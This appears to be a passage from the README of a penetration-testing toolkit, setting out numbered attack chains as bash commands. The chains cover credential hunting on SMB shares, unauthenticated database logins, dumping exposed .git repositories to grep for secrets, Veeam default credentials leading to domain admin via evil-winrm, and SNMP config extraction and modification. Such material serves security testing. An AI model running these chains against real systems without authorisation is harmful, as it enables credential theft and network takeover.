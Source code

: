 ## **Chain 2: Credential Hunting → Database Access**
```bash
# 1. Find SMB shares
./smbseek.py iplist.txt

# 2. Hunt for credentials
./credseek.py smblist.txt --deep --gpp dclist.txt

# 3. Test found credentials on databases
./dbseek.py iplist.txt -t

# 4. Access databases
mongo 192.168.1.100  # No auth
mysql -h 192.168.1.101 -u root -p cracked_password
```

## **Chain 3: Web → Source Code → Credentials**
```bash
# 1. Scan web servers
./webseek.py iplist.txt --full

# 2. Download exposed .git repositories
git-dumper http://target/.git/ output/

# 3. Search source code for credentials
grep -r "password\|api_key\|secret" output/

# 4. Test credentials everywhere
./winrmseek.py iplist.txt -t -u admin -p found_password
./dbseek.py iplist.txt -t
```

## **Chain 4: Backup Server → Domain Admin**
```bash
# 1. Find backup servers
./backupseek.py iplist.txt --full

# 2. Access Veeam console (default: admin/admin)
https://veeam-server:9443

# 3. Extract credentials from Veeam database
# Veeam stores domain admin creds for backups!

# 4. Use extracted creds
evil-winrm -i dc01 -u administrator -p extracted_password
```

## **Chain 5: SNMP → Device Configs → VPN Access**
```bash
# 1. Find SNMP devices
./snmpseek.py iplist.txt --bruteforce

# 2. Extract device configs
snmpwalk -v2c -c private 192.168.1.1

# 3. Find VPN configs, RADIUS secrets, SNMP write access

# 4. Modify device configs if writable
snmpset -v2c -c private 192.168.1.1 ...
```

---